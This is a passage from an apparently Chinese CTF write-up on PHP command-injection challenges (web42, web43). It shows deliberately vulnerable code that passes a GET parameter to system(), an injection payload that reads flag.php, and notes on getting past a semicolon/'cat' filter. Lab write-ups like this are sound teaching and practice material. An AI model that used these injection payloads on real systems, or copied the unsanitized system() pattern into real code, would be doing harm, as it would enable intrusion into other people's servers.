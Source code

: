 ```
}
}
fwrite($myfile,$contents);
fclose($myfile);

```

## web42

> 
源码


```
&lt;?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." &gt;/dev/null 2&gt;&amp;1");
}else{
    highlight_file(__FILE__);
} 

```

> 
Payload


```
c=cat flag.php;

```

## web43

> 
源码


```
&lt;?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." &gt;/dev/null 2&gt;&amp;1");
    }
}else{
    highlight_file(__FILE__);
} 

```

> 
`system()`函数如果不用分号或者截断的话，就和后边的`&gt;/dev/null 2&gt;&amp;1`拼接起来了，不关输入啥都会把结果输出到`/dev/null`
